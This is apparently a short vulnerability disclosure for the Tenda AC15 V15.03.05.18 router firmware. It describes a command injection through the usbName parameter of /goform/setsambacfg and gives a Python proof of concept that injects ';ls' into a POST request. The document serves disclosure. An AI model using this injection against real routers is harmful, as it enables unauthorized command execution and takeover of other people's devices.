 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware, we discovered a command injection vulnerablility in the `usbName` parameter and the `v9`varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `usbName` can trigger this security vulnerability.

![image-20240316174140053](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316174140053.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setsambacfg"
payload = ";ls"

data = {"action":"del","usbName": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image-20240316180711436](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180711436.png)
